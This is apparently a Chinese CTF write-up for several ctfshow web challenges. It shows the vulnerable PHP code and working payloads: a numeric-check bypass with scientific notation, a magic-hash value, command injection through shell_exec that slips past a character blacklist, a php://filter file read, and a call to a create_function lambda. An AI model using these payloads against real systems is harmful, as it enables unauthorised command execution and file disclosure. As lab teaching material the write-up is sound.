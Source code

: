 ## web680
代码执行，没什么难度
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23087450/1641465374611-87dec341-e50c-4277-a19d-ce9b11a5bb4d.png)
secret那个文件下载下来就是flag

## web683
```php
<?php

   error_reporting(0);
   include "flag.php";
   if(isset($_GET['秀'])){
       if(!is_numeric($_GET['秀'])){
          die('必须是数字');
       }else if($_GET['秀'] < 60 * 60 * 24 * 30 * 2){
          die('你太短了');
       }else if($_GET['秀'] > 60 * 60 * 24 * 30 * 3){
           die('你太长了');
       }else{
           sleep((int)$_GET['秀']);
           echo $flag;
       }
       echo '<hr>';
   }
   highlight_file(__FILE__);
```
重点在第八行和第十行的判断，要求输入范围是5184000-7776000，满足条件的数会进入sleep，当然是不可能直接去输入一个数比如6000000，注意到第13行，在sleep前执行了一次int，所以考虑科学技术法绕过，比如变为6e6，这样int后执行的就是sleep(6)
payload：/?秀=6e6
## web761（$a==md5($a)）
0e215962017

## web779

```php
// /flag
function DefenderBonus($Pokemon){
    if(preg_match("/'| |_|\\$|;|l|s|flag|a|t|m|r|e|j|k|n|w|i|\\\\|p|h|u|v|\\+|\\^|\`|\~|\||\"|\<|\>|\=|{|}|\!|\&|\*|\?|\(|\)/i",$Pokemon)){
        die('catch broken Pokemon! mew-_-two');
    }
    else{
        return $Pokemon;
    }

}

function ghostpokemon($Pokemon){
    if(is_array($Pokemon)){
        foreach ($Pokemon as $key => $pks) {
            $Pokemon[$key] = DefenderBonus($pks);
        }
    }
    else{
        $Pokemon = DefenderBonus($Pokemon);
    }
}

switch($_POST['myfavorite'] ?? ""){
    case 'picacu!':
        echo md5('picacu!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'squirtle':
        echo md5('jienijieni!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'mewtwo':
        $dream = $_POST["dream"] ?? "";
        if(strlen($dream)>=20){
            die("So Big Pokenmon!");
        }
        ghostpokemon($dream);
        echo shell_exec($dream);
}
```

主要是第三行的过滤，可以使用od带出数据，通配符*？也过滤了，考虑之前无数字字母时的RCE，用[x-x]这种代替，

payload：``dream=od%09/f[b-z][Z-f]g&myfavorite=mewtwo``

```python
'''
Author: KonDream
Date: 2022-01-24 23:11:40
LastEditors:  KonDream
LastEditTime: 2022-01-24 23:37:37
Description:  
'''

a = ['072143','071546','067550','075567','034464','062463','032065','061062','032055','034070','026543','062064','062543','060455','033544','026542','034061','061545','060543','060471','061467','062062']

for i in a:
    hex_i = str(hex(int(i, 8))[2:])
    print(chr(int(hex_i[2:], 16)), end="")
    print(chr(int(hex_i[:2], 16)), end="")

# ctfshow{493e542b-488c-4dce-ad7b-18ecca9a7c2d}
```

对数据a需手动修正

## web784

非预期了

``payload：?file=php://filter/convert.base64-encode/resource=/flag.txt``

## web787(匿名函数)

```php
<?php

error_reporting(0);
/*创建匿名函数，$key为%00lambda_%d*/
$key = create_function("","die(`cat /flag.txt`);");
/*生成32位随机数*/
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function ctfshow_$hash(){"
    ."global \$key;"
    ."\$key();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

此题关键点在于create_function，这个函数创建了一个匿名函数，我们想要拿到flag就只有调用$key或者ctfshow_$hash()，如果去碰撞这个hash显然不现实，这里如果打印$key会发现其实它返回``%00lambda_%d``，%d是从1开始逐增的整数，也就是说在最开始的时候``$key=%00lambda_1``，我们每一次访问页面后面的数字都会增加，``%00lambda_2、%00lambda_3``等等，所以这个题只有一次成功机会，在环境刚开时打入payload：``?func_name=%00lambda_1``

